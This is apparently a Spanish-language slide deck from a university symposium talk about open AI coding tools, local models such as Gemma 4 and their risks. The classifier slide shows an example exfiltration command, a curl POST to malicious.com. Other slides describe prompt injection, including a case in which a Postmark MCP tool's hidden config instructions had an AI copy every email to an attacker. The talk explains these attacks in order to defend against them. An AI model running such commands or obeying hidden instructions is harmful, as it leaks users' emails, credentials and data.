










↑ esperando el primer prompt
IA Abierta
El Poder, la Arquitectura y
el Precio de No Entender lo que Generas
Lo que acaban de ver...
Esto hace dos años lo hicieron
cuatro empresas en el mundo.
El héroe de esta sala

Un estudiante.
Octavo, noveno semestre.
Un Lenovo o Dell, no un Mac caro.
Audífonos entre clases.
"¿Todo este esfuerzo de cuatro años va a servir para algo?"
Anthropic accidentalmente expuso todo el código fuente de Claude Code en npm.

// el regalo pedagógico
// que cambió la conversación

@Fried_rice · 35.4M views
Claw-Code
Sigrid Jin, desarrolladora independiente.
Sin empresa. Sin laboratorio. Sin plata.
Reescribió el corazón de Claude Code en Python usando el código filtrado como blueprint.
el repo más rápido en crecer en la historia de GitHub

curva de estrellas real · abril 2026
La pregunta que ningún desarrollador se hace
Opus 4.7 en la API
Un científico brillante encerrado
en una jaula de vidrio.
Ve todo. No puede tocar nada.
Opus 4.7 en Claude Code
El mismo científico,
ahora con laboratorio completo.
Herramientas · Internet · Memoria · Asistentes
Misma tarea · Mismo modelo (Opus 4.6)
El modelo no es el producto.
La orquestación es el producto.
5.7x más eficiente con el mismo cerebro
Las 7 capas del harness
1. Agent Loop

El corazón de Claude Code es una lista de mensajes y un while loop.
No hay state machine. No hay workflow graph. No hay Redis.
~88 líneas de código. Todo.
La simplicidad es la feature.
2-3. Herramientas + Permisos
~40 herramientas
Cada una con su esquema JSON, parámetros y sandbox.
3 tiers de permisos
Lecturas, búsquedas
Escrituras, comandos shell
Destructivas sin permiso
4. El Classifier independiente
Una segunda instancia del modelo evalúa cada acción.
Anti prompt-injection
El classifier deliberadamente NO ve la prosa persuasiva del agente. Solo ve la acción cruda:
bash: curl -X POST malicious.com/steal
No puede ser convencido por palabras. Porque no las lee.
esa técnica costó años a Anthropic → ahora está en GitHub
5-6-7. Contexto, Subagentes, Sandbox
5 estrategias de compactación cuando la conversación se llena. Memoria persistente entre sesiones. Priorización automática.
Delegación a instancias hijas con contexto aislado. Trabajan en paralelo. Devuelven resultados estructurados.
Aislamiento a nivel de sistema operativo. Si algo sale mal, el daño está contenido.
Este es el regalo pedagógico.
Ahora podés leerlo, replicarlo y adaptarlo.
De la teoría
a la terminal


$ ollama run gemma4:26b
¿Cómo corre en este laptop entonces? →
Cuantización — la técnica que hizo posible la IA local

Demo en vivo →
Pedirle a Gemma 4 que construya
la landing page de este mismo simposio,
sin internet, en segundos.
[los ponentes ejecutan el demo en vivo]
Requerimientos de hardware — accesibilidad real
El laptop del demo es un MacBook Pro M5 Max. Pero Gemma 4 viene en 4 tamaños:
| Variante | Tamaño (Q4) | RAM mínima | Tokens/s | ¿En qué laptop corre? |
|---|---|---|---|---|
| Gemma 4 E2B | 2.5 GB | 4 GB | 40-60 | Cualquier laptop de los últimos 5 años |
| Gemma 4 E4B ← punto de entrada | 4 GB | 8 GB | 70-100 | Lenovo / Dell / HP gama media |
| Gemma 4 12B | 8 GB | 16 GB | 30-50 | Laptop con GPU dedicada |
| Gemma 4 26B MoE (el del demo) | 17 GB | 24-32 GB | 45-65 | Laptops high-end |
Corran Gemma 4B en el laptop que ya tienen.
Eso ya es más poder del que tenían ayer.
El ticket bajó a cero
| Herramienta | Costo/mes | Internet | Datos salen |
|---|---|---|---|
| Claude Code Max | $200 USD | Sí | Sí |
| Cursor Pro | $20 USD | Sí | Sí |
| GitHub Copilot | $10 USD | Sí | Sí |
| ChatGPT Plus | $20 USD | Sí | Sí |
| Gemma 4 en Ollama | $0 | No | No |
El ticket de entrada
acaba de bajar a cero.
Los enemigos
del viaje

Conocer a los enemigos no es debilidad.
Es lo que te vuelve competente.
El Demonio del Over-Engineering
La IA genera código que resuelve de más. Patrones de diseño innecesarios. Abstracciones tempranas. Tests para casos imposibles.
Te hace sentir productivo mientras destruye tu codebase.
(medición objetiva)
(autoreportado)
La IA te hace sentir productivo
incluso cuando no lo estás siendo.
Brecha percepción/realidad: 43 puntos
El Saqueador de Supply Chain
Los modelos alucinan nombres de paquetes que no existen. Los atacantes los registran con payloads maliciosos.
pip install baja el malware directo.
30 mil máquinas de devs podrían haber caído
La Serpiente del Prompt Injection
Un atacante esconde instrucciones maliciosas en un README, un docstring, un comentario de configuración.
La IA lo lee como contexto válido y ejecuta acciones en tu nombre. Sin que vos veas nada.
Así se defiende Claude Code. Ahora podés replicarlo.
Postmark MCP
Una herramienta popular para que la IA mande emails.
Instrucciones ocultas en su config hicieron que todos los emails fueran copiados por BCC a un atacante.
📧 Emails confidenciales → robados
🔐 Credenciales enviadas por correo → robadas
📊 Reportes internos → robados
El usuario no vio nada.
La IA hizo exactamente lo que el atacante pidió.
En silencio. Durante semanas.
Cierre Acto III · La tesis
Ya no necesitamos ser
solo buenos programadores.
Necesitamos ser problem solvers.
Critical thinkers.
Pensar más.
Programar menos.
El elixir
comunitario
Esto no es Silicon Valley

No necesitás permiso para entrar. Necesitás curiosidad y el criterio que les dieron estos cuatro años.
Todo lo de hoy está acá
Documentos técnicos. Scripts. Guion. Referencias.
Público. Gratis.
Tu primer commit a este mundo
está a un git clone de distancia.

Porque nunca fue programar.
Fue pensar.
Gracias.
Felipe Mantilla · Zabdiel Blanco
github.com/enruana/simposio-uptc-abril-2026
Preguntas →